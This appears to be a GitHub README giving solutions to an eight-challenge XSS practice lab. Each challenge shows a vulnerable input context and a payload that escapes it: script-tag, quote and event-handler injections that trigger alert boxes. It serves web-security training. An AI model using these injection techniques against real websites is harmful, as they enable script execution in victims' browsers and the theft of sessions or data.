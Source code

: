 # XSS-Practice-Lab


### Lab Link : http://leettime.net/xsslab1/chalg1.php

### Author : Sheikh Rishad

<XSS Practice Lab/>


Challenge_1:

    <input type="text" name="name"></input>

payload :   

    <script>alert(1)</script>




Challenge_2:

     <input type="text" name="name" value=hack></input>

payload :  

     ><script>alert(document.URL)</script>


Challenge_3:

     <input type="text" name="name" value="hack"></input>

payload :  

    "><script>alert(document.URL)</script>


Challenge_4:

     <input type="text" name="name" value='hack'></input>

payload :   
 
    '><script>alert(document.URL)</script>


Challenge_5:

    <center><script>var search_str="hack";</script>

payload :   
  
    </script><script>alert(document.URL)</script>


Challenge_6:

     <center><script>var search_str='hack';</script>

payload : 
  
    </script><script>alert(document.URL)</script>


Challenge_7:

     <input type="text" name="name" value='<scriptalert("hack")</script'></input>

payload :   
 
    'onmouseover='alert(document.URL);


Challenge_8:

    <input type="text" name="name" value='&gt;&lt;script&gt;alert(1)&lt;/script&gt;'></input>

payload :   
       
    "onmouseover="alert(document.URL);
